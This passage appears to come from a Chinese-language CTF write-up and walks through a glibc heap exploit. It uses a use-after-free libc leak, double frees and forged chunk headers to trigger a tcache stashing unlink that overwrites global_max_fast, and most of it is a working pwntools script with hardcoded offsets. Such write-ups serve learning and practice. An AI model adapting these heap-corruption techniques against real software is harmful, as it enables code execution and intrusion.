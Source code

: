 unsorted bin的entry只會紀錄fd跟bk不會紀錄大小，所以可以直接把unsorted bin的size改成0x91，並在下面0x90的地方補好prev_size 0x90跟size 0x90(size不為0且PREV_INUSE為0就行）
這樣再calloc一次比0x90大的chunk，unsorted bin就會把0x90的chunk放進smallbin裡面

之後用heap overflow把smallbin的bk改成tranpoline的位置就好，tranpoline在3裡面講

#### 3
tranpoline我是直接用fake chunk C下面0x90的地方來做，size設91，然後fd指向fake chunk C位置，bk指向libc+事先算好的global_max_fast offset-0x10的位置

#### 4
create一個size為0x90的chunk來觸發tcache stashing unlink，成功將global_max_fast改成small bin address

這部份的code如下，到這邊總共用了13次create，多的三次是1次create拿到fake chunk的pointer+1次放chunk到smallbin+1次觸發tcache stashing unlink

```python=
# leak libc base and get pointer to do double free
create(0xF0,'doge') #10
delete(10)

libc_base = u64(show(10)+b'\x00\x00') - 0x1ebbe0
print(f"libc base: {hex(libc_base)}")
global_max_fast_offset = 0x1eeb80
print(f"global_max_fast address: {hex(libc_base+global_max_fast_offset)}")
# start tcache stashing unlink to overwrite global_max_fast
# fill tcache 0x90 to 6 by double free
for i in range(6):
    edit(7,p64(0)+p64(0)*14+p64(0)+p64(0x91)+p64(0)+p64(0))
    delete(10)

# fake read size
edit(7,p64(0)+p64(0)*14+p64(0)+p64(0x91)+p64(0x2f8))
# fake unsorted bin chunk size
# ab0 fake prev size
# ab8 fake size 0x90
# b40 second fake prev size
# b48 second fake size 0xe0
# c20 guard fake prev size 
# c28 guard chunk size
edit(10,p64(0)*15+p64(0x90)+p64(0x90)+p64(0)+p64(0)+p64(0)*14+p64(0)+p64(0xe1)+p64(0)*26+p64(0)+p64(0x101))
# restore fd and bk to unsorted bin
edit(7,p64(0)+p64(0)*14+p64(0)+p64(0x91)+p64(libc_base+0x1ebbe0)+p64(libc_base+0x1ebbe0))

# traverse unsorted bin to put 0x90 in small bin
# c80
create(0xF0,'doge') #11

# fake read size
edit(7,p64(0)+p64(0)*14+p64(0)+p64(0x91)+p64(0x1f8))
# fake one free chunk's fd and bk to serve as tranpoline and fake guard chunk read size for fastbin attack
edit(10,p64(0)*15+p64(0)+p64(0x91)+p64(heap_base+0xa20)+p64(libc_base+global_max_fast_offset-0x10)+p64(0)*14+p64(0x90)+p64(0xe0)+p64(0)*9+p64(0xF1)+p64(0x110)+p64(0)+p64(0)*14+p64(0)+p64(0x101))
# restore fd to small bin and fake bk to tranpoline
edit(7,p64(0)+p64(0)*14+p64(0)+p64(0x91)+p64(libc_base+0x1ebc60)+p64(heap_base+0xab0))
# trigger tcache stashing unlink to overwrite global_max_fast
create(0x80,'doge') #12
```
